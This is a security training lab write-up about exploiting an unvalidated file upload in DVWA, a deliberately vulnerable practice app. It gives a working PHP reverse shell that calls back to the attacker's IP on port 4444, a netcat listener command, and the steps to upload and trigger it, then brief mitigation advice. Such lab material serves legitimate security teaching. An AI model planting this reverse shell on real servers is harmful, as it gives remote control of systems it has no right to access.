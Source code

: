 ## 🔍 Lab 3: File Upload – Reverse Shell & RCE

### 💼 Scenario
A document submission form accepts uploads without validating `MIME` type or restricting executable files. Devs believe the web server won’t execute uploads.

### 🎯 Objective
Upload a PHP reverse shell and gain access to the system. Exploit the vulnerable file upload functionality in DVWA to:

- Upload a malicious PHP reverse shell
- Trigger the shell and connect back to your system
- Gain access to the DVWA container's shell

## 🧪 Steps

### 🔹 Step 1: Write the PHP Reverse Shell Script
1. On your host machine (`attacker`), create a file named `reverse.php` with this code::

```php
<?php
$ip = 'YOUR-IP'; // Replace with your local IP (not 127.0.0.1)
$port = 4444;
$sock = fsockopen($ip, $port);
$proc = proc_open("/bin/sh", array(0=>$sock, 1=>$sock, 2=>$sock), $pipes);
?>
```
Replace `YOUR-IP` with your actual host IP that the Docker container can reach. If unsure, use `ip addr` or `ifconfig` to find your local IP.

### 🔹 Step 2: Set Up a Netcat Listener
On your host machine, open a terminal and run:

```bash
# This listens for incoming connections on port 4444.
nc -l 4444
```
### 🔹 Step 3: Upload the Reverse Shell in DVWA
1. Upload via DVWA → File Upload.
2. Click Browse and select the `reverse.php` file.
3. Submit the form. DVWA will upload your file.

### 🔹 Step 4: Trigger the Reverse Shell
Now that the file is uploaded, open a browser and visit:

```
http://localhost:4280/hackable/uploads/reverse.php
```
Once accessed, the PHP script executes, and your Netcat listener will catch the shell.

### 🔹 Step 5: Interact with the Shell
Now you're in the container shell! Try:

```bash
whoami
ls /
hostname
```

### 🧠 Real-World Context 
- Why **file uploads must never** be trusted
- Real-world risk of **Remote Code Execution (RCE)**
- How attackers chain simple bugs into **full server compromise**
- This attack is often seen in WordPress plugin exploits or misconfigured upload folders.

### 🛡️ Mitigation

- Disallow dangerous extensions.
- Store uploaded files outside `webroot`.
- Sanitize and rename files on upload.
